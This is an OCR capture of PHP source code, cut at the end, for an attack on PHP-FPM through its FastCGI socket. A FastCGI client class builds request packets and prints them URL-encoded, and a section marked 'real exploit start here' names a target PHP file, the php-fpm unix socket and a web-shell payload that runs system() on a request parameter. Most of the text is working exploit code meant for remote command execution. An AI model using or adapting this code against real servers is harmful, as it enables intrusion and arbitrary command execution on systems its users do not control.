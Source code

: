 ```php
     */
    public function request(array $params, $stdin)
    {
        $response = '';
//        $this->connect();
        $request = $this->buildPacket(self::BEGIN_REQUEST, chr(0) . chr(self::RESPONDER) . chr((int) $this->_keepAlive) . str_repeat(chr(0), 5));
        $paramsRequest = '';
        foreach ($params as $key => $value) {
            $paramsRequest .= $this->buildNvpair($key, $value);
        }
        if ($paramsRequest) {
            $request .= $this->buildPacket(self::PARAMS, $paramsRequest);
        }
        $request .= $this->buildPacket(self::PARAMS, '');
        if ($stdin) {
            $request .= $this->buildPacket(self::STDIN, $stdin);
        }
        $request .= $this->buildPacket(self::STDIN, '');
        echo('data='.urlencode($request));
//        fwrite($this->_sock, $request);
//        do {
//            $resp = $this->readPacket();
//            if ($resp['type'] == self::STDOUT || $resp['type'] == self::STDERR) {
//                $response .= $resp['content'];
//            }
//        } while ($resp && $resp['type'] != self::END_REQUEST);
//        var_dump($resp);
//        if (!is_array($resp)) {
//            throw new Exception('Bad request');
//        }
//        switch (ord($resp['content']{4})) {
//            case self::CANT_MPX_CONN:
//                throw new Exception('This app can\'t multiplex [CANT_MPX_CONN]');
//                break;
//            case self::OVERLOADED:
//                throw new Exception('New request rejected; too busy [OVERLOADED]');
//                break;
//            case self::UNKNOWN_ROLE:
//                throw new Exception('Role value not known [UNKNOWN_ROLE]');
//                break;
//            case self::REQUEST_COMPLETE:
//                return $response;
//        }
    }
}
?>
<?php
// real exploit start here
//if (!isset($_REQUEST['cmd'])) {
//    die("Check your input\n");
//}
//if (!isset($_REQUEST['filepath'])) {
//    $filepath = __FILE__;
//}else{
//    $filepath = $_REQUEST['filepath'];
//}

$filepath = "/var/www/html/add_api.php";    // 目标主机已知的PHP文件的路径
$req = '/'.basename($filepath);
$uri = $req .'?'.'command=whoami';    // 啥也不是, 不用管
$client = new FCGIClient("unix:///var/run/php-fpm.sock", -1);
$code = "<?php system(\$_REQUEST['command']); phpinfo(); ?>";    // 啥也不是, 不用管
```